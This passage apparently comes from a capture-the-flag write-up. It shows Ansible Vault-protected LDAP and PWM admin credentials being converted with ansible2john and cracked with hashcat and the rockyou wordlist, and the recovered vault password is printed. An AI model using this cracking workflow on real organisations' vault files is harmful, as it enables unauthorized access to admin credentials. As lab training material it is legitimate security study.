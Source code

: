 
### Credentials Recovery
The values in the file are protected by Ansible vault. We can use ansible2john which takes a file with two lines one header and other the hex-encoded value. First we need to format the protected values in the files.

```bash
$cat ldap_admin_password 
$ANSIBLE_VAULT;1.1;AES256
633038313035343032663564623737313935613133633130383761663365366662326264616536303437333035366235613437373733316635313530326639330a643034623530623439616136363563346462373361643564383830346234623235313163336231353831346562636632666539383333343238343230333633350a6466643965656330373334316261633065313363363266653164306135663764

$cat pwm_admin_login 
$ANSIBLE_VAULT;1.1;AES256
326665343864353665376531366637316331386162643232303835663339663466623131613262396134353663663462373265633832356663356239383039640a346431373431666433343434366139356536343763336662346134663965343430306561653964643235643733346162626134393430336334326263326364380a6530343137333266393234336261303438346635383264396362323065313438

$cat pwm_admin_password 
$ANSIBLE_VAULT;1.1;AES256
313563383439633230633734353632613235633932356333653561346162616664333932633737363335616263326464633832376261306131303337653964350a363663623132353136346631396662386564323238303933393362313736373035356136366465616536373866346138623166383535303930356637306461350a3164666630373030376537613235653433386539346465336633653630356531

```

```bash
$ansible2john ldap_admin_password pwm_admin_login pwm_admin_password | tee ansible_hashes
ldap_admin_password:$ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73ad5d8804b4b2511c3b15814ebcf2fe98334284203635
pwm_admin_login:$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8
pwm_admin_password:$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5
```

### Hashcat

Now, we can use hashcat to crack all the hashes.

```bash
$hashcat ansible_hashes /usr/share/wordlists/rockyou.txt --user

$ansible$0*0*15c849c20c74562a25c925c3e5a4abafd392c77635abc2ddc827ba0a1037e9d5*1dff07007e7a25e438e94de3f3e605e1*66cb125164f19fb8ed22809393b1767055a66deae678f4a8b1f8550905f70da5:!@#$%^&*
$ansible$0*0*2fe48d56e7e16f71c18abd22085f39f4fb11a2b9a456cf4b72ec825fc5b9809d*e041732f9243ba0484f582d9cb20e148*4d1741fd34446a95e647c3fb4a4f9e4400eae9dd25d734abba49403c42bc2cd8:!@#$%^&*
$ansible$0*0*c08105402f5db77195a13c1087af3e6fb2bdae60473056b5a477731f51502f93*dfd9eec07341bac0e13c62fe1d0a5f7d*d04b50b49aa665c4db73ad5d8804b4b2511c3b15814ebcf2fe98334284203635:!@#$%^&*

```
